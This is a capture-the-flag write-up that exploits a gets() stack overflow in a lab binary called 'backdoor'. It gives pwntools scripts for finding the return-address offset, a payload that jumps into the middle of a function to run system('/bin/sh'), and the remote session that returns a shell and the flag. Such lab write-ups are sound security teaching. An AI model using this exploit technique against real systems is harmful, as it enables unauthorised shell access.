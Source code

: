 Writeup for [[Backdoor]]
Location: ``nc offsec-chalbroker.osiris.cyber.nyu.edu 1339``
Download: `backdoor`
Lore: Jumping
Flag: `flag{y0u_dont_n33d_t0_jump_t0_th3_b3ginning_of_functi0ns}`

###### First Run:
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ ./backdoor    
I patched out all my old bugs, so I know my code is super-secure! Tell me your name, friend:
Nobody
You can't hack me, Nobody
```

###### Code:
```c
undefined8 main(EVP_PKEY_CTX *param_1)
{
  char data [32];
  
  init(param_1);
  puts(
      "I patched out all my old bugs, so I know my code is super-secure! Tell me your name, friend:"
      );
  gets(data);
  printf("You can\'t hack me, %s\n",data);
  return 0;
}
```

##### Checksec:
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ pwn checksec backdoor                      
[*] '/home/kali/Desktop/5-Week/backdoor'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Nothing super exciting in vmmap tbh

Spam with data to see what happens:
(I will put the python in this one but not in school so it's in here once)
###### Where is our segfault:
```python
def ripOffset():
	p = process('./backdoor')
	d = p.recvuntil("friend:")
	p.sendline(cyclic(100))
	p.wait()
	cf = p.corefile
	stack = cf.rsp
	info("rsp = %#x", stack)
	pattern = cf.read(stack, 4)
	ripOffset = cyclic_find(pattern)
	info("rip offset = %d", ripOffset)
```
###### Results:
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 Backdoor_Pwn1.py                   
[+] Starting local process './backdoor': pid 1437485
/home/kali/Desktop/5-Week/Backdoor_Pwn1.py:27: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  d = p.recvuntil("friend:")
[*] Process './backdoor' stopped with exit code -11 (SIGSEGV) (pid 1437485)
[+] Parsing corefile...: Done
[*] '/home/kali/Desktop/5-Week/core.1437485'
    Arch:      amd64-64-little
    RIP:       0x40073c
    RSP:       0x7fff509ad318
    Exe:       '/home/kali/Desktop/5-Week/backdoor' (0x400000)
    Fault:     0x6161616c6161616b
[*] rsp = 0x7fff509ad318
[*] rip offset = 40
```

Some leak into registers:
```
$rax   : 0x0               
$rbx   : 0x00007fffffffded8  →  0x00007fffffffe24a  →  "/home/kali/Desktop/5-Week/backdoor"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffddc8  →  "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x00007fffffffdbf0  →  "You can't hack me, aaaabaaacaaadaaaeaaafaaagaaahaa[...]"
$rdi   : 0x00007fffffffdbc0  →  0x00007fffffffdbf0  →  "You can't hack me, aaaabaaacaaadaaaeaaafaaagaaahaa[...]"
$rip   : 0x000000000040073c  →  <main+68> ret 
```
Overwrote `rbp` ...will that be a problem?

And can see in the stack:
```
0x00007fffffffddc8│+0x0000: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"    ← $rsp
0x00007fffffffddd0│+0x0008: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
...omitted for brevity...
```
##### Found offsets
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3                 
>>> from pwn import *
>>> cyclic_find("kaaa")
40
>>> cyclic_find("iaaa")
32
```

So the data at 32 gets written into `rbp`, and at 40 it gets popped off of the stack with the `ret`.
So if we can put an address there, it should execute

#### Building a Payload
Now, Backdoor has an unused function called `get_time
![[Pasted image 20240305230642.png]]
We see it uses system, which it imported:
![[Pasted image 20240306113928.png]]

It makes a system call, but with a command that won't help us:
```c
/* WARNING: Removing unreachable block (ram,0x004006bb) */
void get_time(void)
{
  system("/bin/date");
  return;
}
```
However, and that warning should be a clue, there's more than meets the eye

Looking at the assembly, we do see that the code at  `004006bb` is unreachable because of the `CMP`
```
Dump of assembler code for function get_time:
   0x000000000040069d <+0>:     push   rbp
   0x000000000040069e <+1>:     mov    rbp,rsp
   0x00000000004006a1 <+4>:     push   rbx
   0x00000000004006a2 <+5>:     sub    rsp,0x18
   0x00000000004006a6 <+9>:     mov    ebx,0x4007c8                    = "/bin/date"
   0x00000000004006ab <+14>:    mov    DWORD PTR [rbp-0x14],0xdead
   0x00000000004006b2 <+21>:    cmp    DWORD PTR [rbp-0x14],0x1337
   0x00000000004006b9 <+28>:    jne    0x4006c0 <get_time+35>
   0x00000000004006bb <+30>:    mov    ebx,0x4007d2                    = "/bin/sh"
   0x00000000004006c0 <+35>:    mov    rdi,rbx
   0x00000000004006c3 <+38>:    mov    eax,0x0
   0x00000000004006c8 <+43>:    call   0x400550 <system@plt>
   0x00000000004006cd <+48>:    add    rsp,0x18
   0x00000000004006d1 <+52>:    pop    rbx
   0x00000000004006d2 <+53>:    pop    rbp
   0x00000000004006d3 <+54>:    ret
```
After saving the command `"/bin/date"` in `ebx`, the program compares two different strings before jumping when they are not equal. However, if the jump operation didn't happen, the line at `0x4006bb` would overwrite `ebx` with `/bin/sh`.
If we push `0x4006bb` to the top of the stack before `main` returns, the program should run this portion of `get_time` and give us a shell:
```
0x00000000004006bb <+30>:    mov    ebx,0x4007d2                    = "/bin/sh"
0x00000000004006c0 <+35>:    mov    rdi,rbx
0x00000000004006c3 <+38>:    mov    eax,0x0
0x00000000004006c8 <+43>:    call   0x400550 <system@plt>
0x00000000004006cd <+48>:    add    rsp,0x18
0x00000000004006d1 <+52>:    pop    rbx
0x00000000004006d2 <+53>:    pop    rbp
0x00000000004006d3 <+54>:    ret
```

We might run into stack issues because we're jumping into the middle of the function instead of the beginning (where rbp is pushed), but we also are overwriting `rsp` with a bunch of junk so...lets just see what happens?

With that, we can build our payload
```python
def pld():
	pad = b'A'*40
	addr = p64(0x00004006bb)
	return pad + addr
```

## Remote Exploitation
Connect to the remote service and send the payload using script.
Results:
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 Backdoor_Pwn1.py
[+] Opening connection to offsec-chalbroker.osiris.cyber.nyu.edu on port 1339: Done
[*] Switching to interactive mode
You can't hack me, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbb\x06@
$ whoami
pwn
$ ls
backdoor
flag.txt
$ cat flag.txt
flag{y0u_dont_n33d_t0_jump_t0_th3_b3ginning_of_functi0ns}
```

Full code is in appendix